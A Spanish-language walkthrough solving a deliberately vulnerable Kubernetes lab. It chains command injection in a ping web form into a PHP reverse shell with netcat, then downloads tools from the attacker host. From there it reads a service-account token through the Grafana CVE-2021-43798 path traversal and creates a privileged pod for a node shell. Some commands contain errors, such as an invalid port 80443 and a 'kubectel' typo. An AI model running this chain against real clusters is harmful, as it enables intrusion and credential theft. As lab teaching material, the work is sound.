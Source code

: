 # Solución del laboratorio

## Web LFI
Tras deplegar el laboratorio, obtenemos al dirección de una página web donde se puede hacer ping a distintas direcciones.

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png)

Como se está ejecutando el comando ping, comprobamos si se puede saltar los filtros para poder obtener un LFI, por ejemplo:
```bash 
google.com;ls -l
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png)

## LFI a RCE

Como se puede observar en la imagen anterior, la página es vulnerable a LFI. Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos: 

1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64. 
```bash 
base64 php-revshell.php 
``` 

2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash 
google.com;echo "<php-revshell in base64>" | base64 -d > shell.php
``` 

3. Verificamos que se ha subido el archivo shell.php: 
```bash
google.com;ls -l 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)

4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443: 
``` bash
nc -lvp 80443
```
5. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos la reverse shell del pod donde se está ejecutando el servicio web. 

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png) 

## Reconocimiento en el pod

Una vez dentro hacemos un reconocimiento en el pod: 
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí): 
```bash 
python3 -m http.server
``` 

Descargamos el binario y damos permisos de ejecución: 
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
``` 
Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)

2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo. 
```bash 
env 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.

``` bash 
apk add curl
curl http://10.103.238.75:3000/login | grep version 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)

3. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a LFI, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.

``` bash 
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png) 

4. Comprobamos si el posible crear pods con el token de Grafana: 

``` bash 
./kubectl auth can-i create pods --token=$token
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)

## Escalar al nodo de Minikube

Como es posible crear pods, para escalar al nodo, es posible crear un [badpods](https://github.com/BishopFox/badPods) para escalar al nodo de Minikube.  Este es el YAML que utilizaremos: [bad-pod.yaml](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/kube-lab/lab-pentest/bad-pod.yaml).

1. Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:

``` bash 
wget 192.168.1.131:8000/bad-pod.yaml ./kubectl apply -f bad-pod.yaml --token=$token
```

2. Vemos que se ha creado es nuevo pod:

``` bash
./kubectel get pods --token=$token
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png)

3. Una vez su status esté en Running, ejecutamos el comando siguiente y obtenemos la shell del nodo.

```bash
./kubectl exec -it everything-allowed-exec-pod --token=$token -- sh
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png)


Dentro de la shell de un nodo Minikube, se puede realizar diversas operaciones para gestionar y monitorear clústeres Kubernetes locales. Utilizando comandos como kubectl para interactuar con tus aplicaciones y recursos en el clúster, por ejemplo, desplegar y escalar aplicaciones, ver logs, y ejecutar comandos en contenedores. 